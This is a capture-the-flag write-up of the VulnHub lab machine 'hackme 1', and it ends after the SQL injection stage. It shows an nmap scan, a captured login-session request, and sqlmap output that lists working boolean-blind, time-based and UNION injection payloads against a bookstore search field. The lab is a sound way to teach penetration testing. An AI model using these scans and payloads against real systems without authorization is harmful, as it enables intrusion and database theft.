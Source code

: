 # Boot2RootCTF: *OSCP - hackme 1*

*Note: This box was completed long ago and I am going off of the VMware snapshot I saved after completion, some visuals will be missing and explained instead.*

## Objective

We must go from visiting a simple website to having root access over the entire web server.

We'll download the VM from [here](https://www.vulnhub.com/entry/hackme-1,330/) and set it up with VMware Workstation 16.

Once the machine is up, we get to work.

## Step 1 - Reconnaissance

After finding our IP address using ```ifconfig``` and locating the second host on the network, we can run an Nmap scan to probe it for information.

```
$ sudo nmap -sS -Pn -v -T4 192.168.57.138
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 13:49 EDT
Initiating ARP Ping Scan at 13:49
Scanning 192.168.57.138 [1 port]
Completed ARP Ping Scan at 13:49, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:49
Completed Parallel DNS resolution of 1 host. at 13:49, 0.02s elapsed
Initiating SYN Stealth Scan at 13:49
Scanning 192.168.57.138 [1000 ports]
Discovered open port 80/tcp on 192.168.57.138
Discovered open port 22/tcp on 192.168.57.138
Completed SYN Stealth Scan at 13:49, 0.05s elapsed (1000 total ports)
Nmap scan report for 192.168.57.138
Host is up (0.000079s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:BD:A9:FF (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.036KB)
```

Looks like a simple website, so I visit it and am redirected to a ```login.php``` page.

The first thing I see is a login page with the option to create an account.

After creating an account and logging in, I'm presented with a pretty horrible looking bookstore and the ability to search for things.

From the looks of it, it's very obvious that there's SQL involved, so I start performing SQLi.

## Step 2 - Exploitation

Using Burp Suite, I capture the following POST request made to the bookstore and save an offline copy of it.

```
POST /welcome.php HTTP/1.1
Host: 192.168.57.138
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://192.168.57.138
Connection: close
Referer: http://192.168.57.138/welcome.php
Cookie: PHPSESSID=f5truacndojsv5e8o3pr106dlp
Upgrade-Insecure-Requests: 1

search=test
```

Now that I have an offline copy of the request, I don't need to worry about constantly being redirected back to the login page to be able to make any queries.

Using SQLmap, I start basic SQL injection to see if I can avoid going the "manual labor" route.

```
$ sudo sqlmap -r hackme --risk=3 --level=5 -p search
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.6#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:52:20 /2022-07-13/
...
```

Immediately, SQLmap recognizes that the database uses MySQL and starts using MySQL-specific injection queries.

```
...
[13:52:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[13:52:21] [INFO] POST parameter 'search' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --string="12")
[13:52:21] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
[13:52:23] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
...
```

Finally, a couple of SQL injection queries are found and can successfully be used.

```
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 133 HTTP(s) requests:
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: search=-9991' OR 2731=2731-- Evaa

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 6383 FROM (SELECT(SLEEP(5)))kKcK)-- FLLT

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,CONCAT(0x7171707671,0x704352416e51766274657378426e6a586756416a536e447262767363674f764c4656697156716367,0x7170787671)-- -
---
[13:52:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.10 (cosmic)
web application technology: Apache 2.4.34
back-end DBMS: MySQL >= 5.0.12
[13:52:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.57.138'

[*] ending @ 13:52:35 /2022-07-13/
```

